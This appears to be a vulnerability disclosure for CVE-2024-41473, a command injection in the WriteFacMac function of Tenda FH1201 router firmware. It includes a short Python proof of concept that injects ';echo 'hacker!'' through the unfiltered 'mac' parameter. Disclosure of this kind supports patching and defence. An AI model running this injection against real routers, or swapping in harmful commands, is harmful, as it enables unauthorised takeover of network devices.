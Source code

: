 # WriteFacMac

Firmware download website:https://www.tendacn.com/download/detail-3322.html

### CVE number

CVE-2024-41473

### Vulnerability details

Tenda FH1201 v1.2.0.14 has a command injection vulnerability located in the WriteFacMac function.The mac parameter is copied to var without any filtering, and then executed, so an attacker can exploit this vulnerability to execute arbitrary commands

![image-20240724104447626](./image-20240724104447626.png)

### poc

```python
import requests

ip = '192.168.74.145'




url = "http://" + ip + "/goform/WriteFacMac"
payload = ";echo 'hacker!'"

data = {"mac": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240724104623060](./image-20240724104623060.png)
